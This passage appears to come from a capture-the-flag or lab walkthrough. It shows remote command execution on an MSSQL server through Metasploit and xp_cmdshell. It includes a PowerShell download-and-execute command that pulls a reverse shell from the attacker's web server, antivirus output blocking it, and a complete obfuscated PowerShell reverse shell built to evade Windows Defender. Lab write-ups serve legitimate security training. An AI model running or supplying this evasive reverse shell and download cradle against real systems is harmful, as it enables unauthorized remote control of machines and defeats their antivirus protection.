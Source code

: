 Well now start a webserver to serve our reverse shell script so we can download it from inside the machine:

```shell-session
python -m http.server
```

This will spawn a http server on our machine at port `8000` in order to serve our powershell reverse shell. Then we set the command on metasploit, and run the exploit:

```
set CMD powershell 'IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.167:8000/lol.ps1\");'
```

We will then run this script and we can see that we obtain an Antivirus message for tryting to run our shell code:

```shell-session
msf6 auxiliary(admin/mssql/mssql_exec) > set CMD powershell 'IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.167:8000/lol.ps1\");'
CMD => powershell IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.167:8000/lol.ps1\");
msf6 auxiliary(admin/mssql/mssql_exec) > exploit
[*] Running module against 10.10.10.27

[*] 10.10.10.27:1433 - SQL Query: EXEC master..xp_cmdshell 'powershell IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.167:8000/lol.ps1\");'

 output
 ------
 IEX : At line:1 char:1
 + $client = New-Object System.Net.Sockets.TCPClient("10.10.14.167",4242 ...
 + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 This script contains malicious content and has been blocked by your antivirus software.
 At line:1 char:1
 + IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.167:80 ...
 + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
 + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.Inv
 okeExpressionCommand

[*] Auxiliary module execution completed
```

In order to bypass this we will need to obfuscate our powershell code so that the Windows defender antivirus does not detect it. For this task we've used the `ISESteroids` obtainable from http://www.powertheshell.com/isesteroids/. After running the "Obfuscate" tool on our script we obtain a new one:

```
${____/\/=\/==\__/\}=(New-Object Net.Sockets.TCPClient($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('MQAwAC4AMQAwAC4AMQA0AC4AMQA2ADcA'))),4242)).GetStream();[byte[]]${__/\_/=\_/\__/=\/}=0..65535|%{0};while((${___/\/=======\/\/}=${____/\/=\/==\__/\}.Read(${__/\_/=\_/\__/=\/},0,${__/\_/=\_/\__/=\/}.Length)) -ne 0){;${__/\/\/==\/=\/\_/}=(New-Object Text.ASCIIEncoding).GetString(${__/\_/=\_/\__/=\/},0,${___/\/=======\/\/});${_/==\___/=\/\__/=}=([text.encoding]::ASCII).GetBytes((iex ${__/\/\/==\/=\/\_/} 2>&1));${____/\/=\/==\__/\}.Write(${_/==\___/=\/\__/=},0,${_/==\___/=\/\__/=}.Length)}
```

